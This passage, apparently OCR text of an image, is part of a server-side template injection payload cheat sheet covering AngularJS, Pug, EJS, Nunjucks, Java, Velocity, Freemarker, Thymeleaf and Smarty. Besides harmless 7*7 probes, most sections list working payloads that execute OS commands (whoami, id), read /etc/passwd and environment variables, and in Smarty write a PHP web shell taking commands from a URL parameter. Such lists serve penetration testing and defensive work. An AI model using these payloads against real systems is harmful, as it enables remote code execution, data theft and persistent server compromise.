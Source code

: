 8. AngularJS (with ng-bind):
•	<div ng-bind="7*7"></div>   Evaluates 7*7 to 49

9. AngularJS:
•	{{7*7}}  Evaluates 7*7 to 49
•	{{'ssti'+7*7}}  Injects 'ssti' followed by the result of 7*7

10. Pug (formerly Jade) (JavaScript):
•	p= 7*7 Evaluates 7*7 to 49
•	#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}  Reads /etc/passwd file

11. EJS (JavaScript):
•	<%= 7*7 %>   Evaluates 7*7 to 49

12. Nunjucks (JavaScript):
•	{{ 7*7 }}  Evaluates 7*7 to 49
•	{{ 'ssti'+7*7 }}  Injects 'ssti' followed by the result of 7*7 = ssti49

13. Java:
•	${{7*7}}   Evaluates 7*7 to 49
•	${class.getClassLoader()}   Gets the class loader
•	${class.getResource("").getPath()}   Gets the path of the current resource
•	${class.getResource("../../../../../index.htm").getContent()}  Gets the content of index.htm resource
•	${T(java.lang.System).getenv()}  Gets environment variables
•	${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/etc/passwd').toURL().openStream().readAllBytes().join(" ")}  Reads /etc/passwd file

14. Velocity (Java):
•	#set($a=7*7)${a}  Sets a Velocity variable 'a' to 49 and then outputs it
•	#set($str = $class.inspect("java.lang.String").type)  Gets the type of java.lang.String class
•	#set($chr = $class.inspect("java.lang.Character").type)  Gets the type of java.lang.Character class
•	#set($ex = $class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))  Executes 'whoami' command
•	$ex.waitFor()  Waits for the process to complete
•	#set($out = $ex.getInputStream())  Gets the input stream of the process
•	#foreach($i in [1..$out.available()]) $str.valueOf($chr.toChars($out.read())) #end  Reads output of process and converts to string

15. Freemarker (Java):
•	<#assign a=7*7>${a}  Assigns Freemarker variable 'a' to 49 and then outputs it
•	#set($a = 7 * 7)${a}  Sets a variable 'a' to 49 and outputs it
•	<#assign command="freemarker.template.utility.Execute"?new()>${command("cat /etc/passwd")}  Exploits Freemarker's code execution capabilities to read /etc/passwd

16. Thymeleaf (Java):
•	[[${7*7}]]  Evaluates 7*7 to 49
•	[[${T(java.lang.Runtime).getRuntime().exec('cat /etc/passwd').getInputStream().toString()}]]  Reads /etc/passwd file

17. Smarty (PHP):
•	{$smarty.version}  Prints the version of Smarty
•	{$smarty.template_object}  Prints the current template object
•	{{7*7}}  Evaluates 7*7 to 49
•	{php}echo "id";{/php}  Executes 'id' command
•	{Smarty_Internal_write_File::writeFile($SCRIPT_NAME, "<?php passthru($_GET['cmd']);?>", self::clearConfig())}  Exploits Smarty's code execution capabilities to execute commands
